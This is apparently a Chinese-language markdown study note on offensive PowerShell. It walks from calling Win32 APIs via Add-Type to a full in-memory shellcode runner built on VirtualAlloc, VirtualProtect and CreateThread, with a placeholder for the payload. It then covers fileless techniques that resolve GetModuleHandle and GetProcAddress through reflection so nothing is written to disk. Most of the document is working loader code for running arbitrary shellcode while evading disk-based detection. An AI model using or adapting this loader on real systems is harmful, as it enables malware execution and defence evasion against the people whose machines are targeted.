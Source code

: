 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器執行，但這樣的行為，C#程式碼和編譯後的暫存將會寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓程式碼持續留存在記憶體中而不被寫入硬碟，必須改用UnsafeNativeMethods尋找已存在的函式直接調用
- 利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
### Enumerate UnsafeNativeMethods Function
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies | 
	ForEach-Object {
	 $_.GetTypes() | 
	ForEach-Object { 
		$_ | Get-Member -Static| Where-Object {	   $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
	}
          } 2> $null 
}
```
### Enumerate UnsafeNativeMethods DLL Path
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies |
 	ForEach-Object {
	 $_.Location
	 $_.GetTypes()|
		 ForEach-Object {
		 $_ | Get-Member -Static| Where-Object { 
$_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
	 }
		 } 2> $null
 } 
```
### Invoke GetModuleHandle from System.dll
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And _.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$GetModuleHandle.Invoke($null, @("user32.dll")) 
```
- ![圖片2](https://user-images.githubusercontent.com/81568292/137424843-940c88b8-25b9-4e02-a950-4731d4e8895b.png)
### Invoke GetProcAddress from System.dll
```
$unsafeObj.GetMethods() | ForEachObject {If($_.Name -eq "GetProcAddress") {$_}}
```
- ![image](https://user-images.githubusercontent.com/81568292/137425483-e7e38c40-9864-420f-9bb4-d2b9327b78e6.png)
### Get MessageBoxA
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }) 
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods') 
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle') 
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll")) 
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} 
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```
